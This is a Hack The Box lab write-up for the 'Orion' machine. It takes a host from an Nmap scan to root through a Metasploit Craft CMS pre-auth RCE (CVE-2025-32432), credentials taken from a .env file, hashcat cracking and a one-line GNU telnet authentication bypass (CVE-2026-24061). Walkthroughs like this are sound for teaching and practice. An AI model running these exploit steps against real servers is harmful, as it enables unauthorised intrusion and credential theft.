

# Orion — HTB Machine

**Platform:** Hack The Box
**Difficulty:** Medium
**Type:** Linux Machine
**Objective:** Obtain user and root flags
**Key Vulnerabilities:** CVE-2025-32432 (Craft CMS pre-auth RCE) → CVE-2026-24061 (telnet auth bypass)
**Status:** ✅ Completed

---

## Attack Flow

```text
Nmap --> 22 (ssh), 80 (http)
80 redirects to orion.htb --> add to /etc/hosts
Static page --> ffuf --> /admin (302) --> Craft CMS 5.6.16 login
CVE-2025-32432 --> Metasploit pre-auth RCE --> meterpreter (www-data)
.env leaks plaintext MySQL root creds
DB dump --> admin bcrypt hash
Hashcat cracks hash --> adam:darkangel
su adam --> user.txt
SSH as adam --> netstat reveals local telnet
CVE-2026-24061 --> telnet -f root auth bypass --> root shell --> root.txt
```

---

## 1. Recon

```bash
ping -c 4 10.129.60.93
nmap -sS -n -Pn --min-rate 5000 -p- -oN scan1 10.129.59.110
```

```text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
nmap -sS -n -Pn -A -p 22,80 -oN scanversions 10.129.59.110
```

Port 80 redirects to `orion.htb`:

```bash
echo "10.129.59.110 orion.htb" | sudo tee -a /etc/hosts
```

---

## 2. Directory Fuzzing

```bash
ffuf -w ~/Desktop/Lists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-small.txt \
  -u http://orion.htb/FUZZ -e .php,.html -recursion
```

```text
admin    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 188ms]
```



Identified: **Craft CMS 5.6.16**

---

## 3. Exploitation — CVE-2025-32432

Pre-authentication code injection in Craft CMS, exploited via Metasploit:

```bash
msfconsole
use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
set RHOSTS orion.htb
set LHOST <attacker-ip>
exploit
```

Result: Meterpreter session as `www-data`.

---

## 4. Credential Harvesting

```bash
cat /var/www/html/craft/.env
```

```text
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=SuperSecureCraft123Pass!
```

```bash
mysql -u root -p orion
```

```sql
SELECT * FROM users;
```

Recovered admin bcrypt hash for `adam`.

---

## 5. Hash Cracking

```bash
hashcat -a 0 -m 3200 password.txt ~/Desktop/Lists/Rockyou/rockyou.txt
hashcat -a 0 -m 3200 password.txt --show
```

```text
adam:darkangel
```

---

## 6. User Flag

```bash
su adam
cat user.txt
```

✅ User flag obtained.

---

## 7. Root — CVE-2026-24061 (Telnet Auth Bypass)

```bash
ssh adam@orion.htb
netstat -l
```

Local-only telnet service found:

```bash
telnet --version
# telnet (GNU inetutils) 2.7
```

CVE-2026-24061 lets a client dictate its login identity via the `USER` environment variable:

```bash
USER='-f root' telnet -a 127.0.0.1
```

```text
root@orion:~# id
uid=0(root) gid=0(root) groups=0(root)
```

```bash
cat root.txt
```

✅ Root flag obtained — machine fully completed.

---

## Why It Works

- Craft CMS's public endpoint permits code execution before any authentication
- Database credentials sit in a plaintext `.env` file readable by the web process
- A weak, dictionary-guessable password cracked quickly with rockyou.txt
- A legacy, local-only telnet service trusts a client-controlled environment variable for identity

---

## References

- [NVD — CVE-2025-32432 (Craft CMS)](https://nvd.nist.gov/vuln/detail/CVE-2025-32432)
- [NVD — CVE-2026-24061 (GNU inetutils telnet)](https://nvd.nist.gov/vuln/detail/CVE-2026-24061)
